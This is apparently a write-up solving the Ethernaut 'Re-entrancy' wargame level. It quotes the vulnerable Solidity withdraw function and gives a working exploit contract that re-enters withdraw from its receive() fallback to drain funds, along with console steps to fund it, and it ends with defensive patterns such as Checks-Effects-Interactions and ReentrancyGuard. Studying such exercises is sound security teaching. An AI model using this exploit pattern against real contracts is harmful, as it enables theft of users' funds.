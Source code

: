 # 10. Re-entrancy
<sup>Difficulty 6/10</sup>

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the Help page above, section "Beyond the console"

## Solution

As the name states, we need to perform a reentrancy attack. 

The vulnerable function is:

```solidity
function withdraw(uint _amount) public {
	if(balances[msg.sender] >= _amount) {
		(bool result,) = msg.sender.call{value:_amount}("");
		if(result) {
			_amount;
		}
		balances[msg.sender] -= _amount;
	}
}
```

We can create a contract and use the fallback method to call the `withdraw` function over and over. This behavior is exploitable since the sender balance is updated after the `call` function and there is no lock functionality for the function. 

For more information check [Reentrancy attack](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/)

Create and deploy the Exploit contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ExploitContract {
    address payable reentranctContractAddress = 0x7B33B7c60Aa888a75DB301e882142a05FEDe9C1f;
    Reentrance reentranceContract = Reentrance(reentranctContractAddress);

    function exploit() public {
        reentranceContract.withdraw(0.001 ether);
    }

    receive() external payable {
        reentranceContract.withdraw(0.001 ether);
    }
}
```

Get the contract address (`0x243AE9Ccd43E72e0F3E8625631057D4CB2F133c6`) and feed with some ETH to pass the `balances[msg.sender] >= _amount` check:

```javascript
const exploitContractAddr = '0x243AE9Ccd43E72e0F3E8625631057D4CB2F133c6'
await contract.donate(exploitContractAddr, {value: toWei('0.001')})
fromWei((await contract.balanceOf(exploitContractAddr)).words.join(''))
// -> '0.001300889614901161'
```

Now we can run the exploit function and complete the challenge \_\m/

## OZ Corner

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

### The DAO Hack
The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
